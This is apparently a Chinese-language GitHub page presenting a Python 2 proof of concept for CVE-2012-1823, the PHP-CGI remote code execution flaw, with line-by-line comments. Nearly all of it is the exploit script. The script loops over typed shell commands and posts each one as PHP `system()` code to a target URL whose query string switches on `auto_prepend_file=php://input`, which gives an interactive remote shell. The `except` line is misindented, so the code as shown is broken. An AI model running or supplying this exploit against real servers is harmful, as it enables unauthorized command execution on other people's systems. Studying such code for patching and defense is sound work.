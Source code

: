 # CVE-2012-1823



---

这个PoC演示了CVE-2012-1823 – PHP-CGI的远程代码执行漏洞的利用,下面这个PoC的代码是通过一个简单的循环来获取PoC使用者频繁输入的内容,并且修改HttP头。Post提交请求。这个代码的原理也可以用于其他的示例。因为这段代码演示了如何通过Python创建自定义的HTTP头并且发起请求:
```
#!/usr/bin/python
import sys, urllib2    #导入需要的模块

if len(sys.argv) != 2:    # 检查输入的格式是否正确 "<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)

URL=sys.argv[1]        # 输出测试的url链接 "[+] Attempting CVE-2012-1823 - PHP-CGI RCE"

while True:        # 循环开始时先输出 "~$ " 然后通过"raw_input"获取要执行的命令
  command=raw_input("~$ ")
  Host = URL.split('/')[2]      # 从URL解析主机名: 'http://<host>/' 并且赋值给Host <host>
  headers = {                   # 定义响应头部
    'Host': Host,
    'User-Agent': 'Mozilla',
    'Connection': 'keep-alive'}
  data = "<?php system('"+command+"');die(); ?>"        # PHP运行的服务器
  req = urllib2.Request(URL+"?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input", data, headers)

  try:                    # 使用Try/Except处理响应信息
    response = urllib2.urlopen(req)     # 发起请求
    for line in response.readlines():
      print line.strip()
    except Exception as e: print e
```

**结果演示**

![php_cgi][1]
[1]: https://github.com/smartFlash/pySecurity/blob/master/zh-cn/img/0x14.png
